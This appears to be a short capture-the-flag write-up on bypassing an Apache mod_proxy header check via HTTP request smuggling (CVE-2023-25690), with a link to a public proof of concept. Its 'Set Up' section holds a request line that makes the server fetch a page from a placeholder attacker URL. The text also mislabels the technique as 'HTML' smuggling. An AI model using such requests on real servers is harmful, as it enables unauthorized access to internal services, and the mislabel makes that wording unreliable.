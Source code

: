 # HTML Request Smuggling > Apache Mod_Proxy 

## Website 

<img src= "apacheblaze_website.PNG">

## Description

There is not a whole lot to this application. We're given the source code to look through. We can see the backend application code which basically checks for X-Forwarded-Host header to equal a certain value for us to be able to access the data behind click_topia endpoint. Although, we we try to make a request with tout host header set, we receive the same error. So, spinning up the application locally and debugging shows that our headers aren't arriving as expected and additional headers are being added to the request. Reviewing the Apache [mod_proxy](https://httpd.apache.org/docs/2.4/mod/mod_proxy.html) documentation shows why. "When acting in a reverse-proxy mode (using the ProxyPass directive, for example), mod_proxy_http adds several request headers in order to pass information to the origin server. These headers are: X-Forwarded-For, X-Forwarded-Host, and X-Forwarded-Server." Reviewing the httpd.conf shows Requests to /api/games/ are rewritten and proxied to http://127.0.0.1:8080/?game=$1, and the load balancer distributes traffic between http://127.0.0.1:8081 and http://127.0.0.1:8082 based on the specified load balancing method. Searching online reveals a CVE for HTML smuggling and a PoC. We are able to use this to retrieve the flag. More information on CVE-2023-25690 can be foun below.

## Set Up

1. Burpsuite Repeater/collaborator(Testing): GET requests to /render?use_remote=true&page=https://ATTACKER_URL/test.go.

## Exploit
<img src= "exploited_html_)smuggling.PNG">

## More Information

[CVE-2023-25690-POC](https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection)
<summary> The impact of this vulnerability is that it allows attackers to target and access internal applications that are meant to be hidden by the reverse proxy, potentially leading to unauthorized access, data leakage, or further exploitation.</summary>


